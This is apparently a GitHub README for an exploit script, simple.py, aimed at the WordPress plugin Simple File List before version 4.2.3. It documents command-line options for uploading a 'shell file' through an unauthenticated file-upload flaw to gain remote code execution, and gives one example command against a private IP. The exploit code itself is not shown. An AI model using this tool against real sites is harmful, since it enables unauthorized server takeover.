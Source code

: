 # simple-file-list-rce
Simple File List &lt; 4.2.3 - Unauthenticated Arbitrary File Upload RCE

```
usage: simple.py [-h] -u URL [-f1 FILE1] [-f2 FILE2] [-p PATH]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Wordpress Url i.e https://wordpress.lan
  -f1 FILE1, --file1 FILE1
                        Harmless File Name
  -f2 FILE2, --file2 FILE2
                        Shell File Name
  -p PATH, --path PATH  URI Path /my-simple-file-list-page/
```


### Example

```
python3 simple.py --url http://192.168.1.134 -f1 test5.png -f2 test5.php
```
